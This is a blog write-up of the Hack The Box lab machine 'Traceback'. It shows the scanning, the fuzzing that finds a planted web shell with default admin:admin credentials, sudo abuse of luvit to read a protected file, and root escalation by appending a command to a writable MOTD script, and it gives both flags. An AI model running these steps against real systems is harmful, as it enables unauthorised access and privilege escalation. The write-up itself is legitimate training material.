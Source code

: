 +++
title = "[HTB] Traceback"
date = 2020-08-25
template = "post.html"

aliases = [
  "/2020/08/25/htb-traceback/",
]

[taxonomies]
categories = ["Security"]
tags = ["CTF", "Web"]
+++
Traceback is an easy Linux-based machine released on the 14th of March 2020 and
reachable on the IP address `10.10.10.181` (despite what's written on the info
card).

![HTB Traceback information card](/htb-traceback/htb-traceback-info-card.jpg)

<!-- more -->

## User flag

Nmap indicates us that the Traceback machine is running OpenSSH and Apache:

```
$ nmap -A 10.10.10.181 | tee nmap.txt
Starting Nmap 7.80 ( https://nmap.org ) at 2020-08-23 19:03 IST
Nmap scan report for 10.10.10.181
Host is up (0.029s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 96:25:51:8e:6c:83:07:48:ce:11:4b:1f:e5:6d:8a:28 (RSA)
|   256 54:bd:46:71:14:bd:b2:42:a1:b6:b0:2d:94:14:3b:0d (ECDSA)
|_  256 4d:c3:f8:52:b8:85:ec:9c:3e:4d:57:2c:4a:82:fd:86 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Help us
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.30 seconds
```

Let's have a look at the website available on port 80:

![Landing page of the website accessible on port
80](htb-traceback-landing-page.png)

The `index.html` page doesn't contain much but this HTML comment:

```html
<center>
  <h1>This site has been owned</h1>
  <h2>I have left a backdoor for all the net. FREE INTERNETZZZ</h2>
  <h3> - Xh4H - </h3>
  <!--Some of the best web shells that you might need ;)-->
</center>
```

It is definitely a hint. A quick search on DuckDuckGo with the keywords "Xh4H
web shell" returns [https://github.com/Xh4H/Web-Shells][web-shells] as first
result. It is a Git repository full of web shells. One of them is certainly the
one that the original attacker has left on the server!

To create a wordlist with the web shells comprised in the Git repository, I
called the [GitHub API][github-api-trees] with this one-liner command-line:

```
$ curl -s https://api.github.com/repos/Xh4H/Web-Shells/git/trees/4c9bade954938d56597325b872739c1a2463cf91 | jq -r .tree[].path | grep -vi readme | tee web-shells.txt
alfa3.php
alfav3.0.1.php
andela.php
bloodsecv4.php
by.php
c99ud.php
cmd.php
configkillerionkros.php
jspshell.jsp
mini.php
obfuscated-punknopass.php
punk-nopass.php
punkholic.php
r57.php
smevk.php
wso2.8.5.php
```

Then, I fuzzed the web server with this wordlist using ZAP:

![Output from ZAP's fuzzer with the list of web shells previously
generated](htb-traceback-web-shells.png)

And voila! The backdoor is accessible at
[http://10.10.10.181/smevk.php][smevk-backdoor]:

![SmEvk web shell's login page](htb-traceback-smevk-login-page.png)

The credentials `admin:admin` are hard-coded in the web shell:
[https://github.com/Xh4H/Web-Shells/blob/master/smevk.php#L14-L15][smevk-credentials].

Then, I used the terminal available in the "Console" tab to poke around a
little:

```
$ id
uid=1000(webadmin) gid=1000(webadmin) groups=1000(webadmin),24(cdrom),30(dip),46(plugdev),111(lpadmin),112(sambashare)
$ cat /home/webadmin/note.txt
- sysadmin -
I have left a tool to practice Lua.
I'm sure you know where to find it.
Contact me if you have any question.
```

A Lua tool?

```
$ cat /home/webadmin/.bash_history
ls -la
sudo -l
nano privesc.lua
sudo -u sysadmin /home/sysadmin/luvit privesc.lua
rm privesc.lua
logout
$ sudo -l
Matching Defaults entries for webadmin on traceback:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User webadmin may run the following commands on traceback:
    (sysadmin) NOPASSWD: /home/sysadmin/luvit
```

It indeed seems that the `webadmin` user can execute `/home/sysadmin/luvit` on
behalf of `sysadmin` without password.

[Luvit][luvit] is a program which "implements the same APIs as Node.js, but in
Lua!". We can therefore use it to execute Lua payloads. We fill prepare one for
reading the user flag:

```
$ printf 'file = io.open("/home/sysadmin/user.txt", "r")\nio.input(file)\nprint(io.read())\nio.close(file)\n' > /tmp/read_flag.lua
```

And then:

```
$ sudo -u sysadmin /home/sysadmin/luvit /tmp/read_flag.lua
```

Which gives us the user flag: `e564de9f40e354deb591fa121937ca0d`.

## Root flag

Before going further, I wanted to get a "real" shell so I added an SSH public
key of mine to the `sysadmin` user's authorised keys and then connected back to
the server as `sysadmin` via SSH.

During the rest of my investigation, something caught my attention:

```
$ find / -type f -writable 2>/dev/null | grep -v '^/proc' | grep -v '^/sys'
/etc/update-motd.d/50-motd-news
/etc/update-motd.d/10-help-text
/etc/update-motd.d/91-release-upgrade
/etc/update-motd.d/00-header
/etc/update-motd.d/80-esm
/home/sysadmin/.bashrc
/home/sysadmin/luvit
/home/sysadmin/.bash_logout
/home/sysadmin/.ssh/authorized_keys
/home/sysadmin/.cache/motd.legal-displayed
/home/sysadmin/.bash_history
/home/sysadmin/.profile
/home/webadmin/note.txt
```

The `sysadmin` user can edit the MOTD scripts!

```
$ ls -al /etc/update-motd.d/
total 32
drwxr-xr-x  2 root sysadmin 4096 Aug 27  2019 .
drwxr-xr-x 80 root root     4096 Mar 16 03:55 ..
-rwxrwxr-x  1 root sysadmin  981 Aug 23 16:22 00-header
-rwxrwxr-x  1 root sysadmin  982 Aug 23 16:22 10-help-text
-rwxrwxr-x  1 root sysadmin 4264 Aug 23 16:22 50-motd-news
-rwxrwxr-x  1 root sysadmin  604 Aug 23 16:22 80-esm
-rwxrwxr-x  1 root sysadmin  299 Aug 23 16:22 91-release-upgrade
```

This is really bad (for the server's owner at least) because these scripts are
executed upon any new SSH connection as defined in `/etc/pam.d/sshd`:

```
...
# Print the message of the day upon successful login.
# This includes a dynamically generated part from /run/motd.dynamic
# and a static (admin-editable) part from /etc/motd.
session    optional     pam_motd.so  motd=/run/motd.dynamic
session    optional     pam_motd.so noupdate
....
```

All I need is to modify one of those scripts to print the root flag:

```
$ echo 'cat /root/root.txt' >> /etc/update-motd.d/00-header
```

And when one logs in via SSH:

```
$ ssh -o PasswordAuthentication=no -i ~/.ssh/traceback sysadmin@10.10.10.181
#################################
-------- OWNED BY XH4H  ---------
- I guess stuff could have been configured better ^^ -
#################################

Welcome to Xh4H land

fa6d76ff6866c37f381b5f6e40f8ce89


Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Last login: Sun Aug 23 16:23:41 2020 from 10.10.14.16
$
```

The root flag was `fa6d76ff6866c37f381b5f6e40f8ce89`.

 [github-api-trees]: https://developer.github.com/v3/git/trees/#get-a-tree
 [luvit]: https://luvit.io/
 [smevk-backdoor]: http://10.10.10.181/smevk.php
 [smevk-credentials]: https://github.com/Xh4H/Web-Shells/blob/master/smevk.php#L14-L15
 [web-shells]: https://github.com/Xh4H/Web-Shells
